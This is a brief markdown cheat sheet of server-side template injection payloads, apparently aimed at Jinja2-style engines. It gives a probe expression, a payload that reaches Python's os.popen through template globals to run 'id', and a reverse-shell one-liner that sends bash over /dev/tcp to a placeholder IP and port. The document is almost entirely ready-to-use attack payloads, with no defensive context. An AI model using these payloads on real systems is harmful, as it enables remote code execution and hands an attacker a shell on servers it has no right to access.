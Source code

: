 # SSTI Payloads

## Test Payloads
```
{{ 7 * 7 }}
```
```
Test for System Execution
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
## Shell Payloads
### Rev-Shell Onliners
```
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"').read() }}
```
